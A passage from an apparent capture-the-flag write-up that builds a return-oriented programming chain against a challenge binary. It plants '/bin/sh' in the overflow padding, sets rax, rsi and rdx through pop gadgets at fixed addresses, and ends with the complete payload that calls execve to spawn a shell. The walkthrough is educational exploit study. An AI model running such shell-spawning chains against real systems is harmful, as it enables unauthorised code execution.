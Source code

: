 So to get a shell, we want something like the following psuedo-code:

```
rax = 59
rdi = '/bin/sh\x00'
rsi = '\x00\x00\x00\x00\x00\x00\x00\x00'
rdx = '\x00\x00\x00\x00\x00\x00\x00\x00'
```

So if we can setup the registers to match above, and then execute the `syscall` instruction, we should get a shell to play with!

We have lots of gadgets to play with, but the easiest gadgets for writing arbitrary data to registers is the pop instruction. This allows us to simply place the desired values directly on the stack. However, I now begin to ask myself, how am I going to get a hardcoded address pointing to `/bin/sh\x00`? Well, that’s when I noticed when debugging the vuln function, that the rdi register was already pointing to the beginning of my payload padding. So let’s just put ‘/bin/sh\\x00’ at the beginning before the padding. And while I’m at it, I also go ahead and add a 64-bit 0x00 value after the `/bin/sh\x00` string. Additionally, I also realized that the payload is also stored in a hard-coded location in the .bss section, not just on the stack. So below is what my payload looks like now:

```
payload = ''
payload += '/bin/sh\x00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
```

And memory locations:

```
0x631080: '/bin/sh\x00'
0x631088: '\x00\x00\x00\x00\x00\x00\x00\x00'
```

And as I mentioned above, `rdi` is already pointing to the beginning of my payload, which is now `/bin/sh\x00`. So we need a gadget for setting the following registers, `rax`, `rsi`, and `rdx`, and of course, the syscall gadget.

The `pop` instruction will be the easiest for us, so I simply grepped the text dump for pop. Since we decoded the instructions as x86, we’ll be looking for the x86 registers. There are duplicates, but these were the ones I happend to grab:

```
GADGETS_BASE    = 0x601080
GADGET_POP_EAX  = GADGETS_BASE + 0x7609#:    58                      pop    %eax
GADGET_POP_ESI  = GADGETS_BASE + 0x761b#:    5e                      pop    %esi
GADGET_POP_EDX  = GADGETS_BASE + 0x760f#:    5a                      pop    %edx
GADGET_SYSCALL  = GADGETS_BASE + 0x2d0f#:    0f 05                   syscall
```

Finally, we are ready to put everything together for the complete ROP chain:

```
p = getp()

payload = ''
payload += '/bin/sh\x00'
payload += p64(0x00)
payload += 'A'*(88-len(payload))
payload += p64(GADGET_POP_EAX)
payload += p64(59)
payload += p64(GADGET_POP_ESI)
payload += p64(0x631088)
payload += p64(GADGET_POP_EDX)
payload += p64(0x631088)
payload += p64(GADGET_SYSCALL)

p.sendline(payload)
```

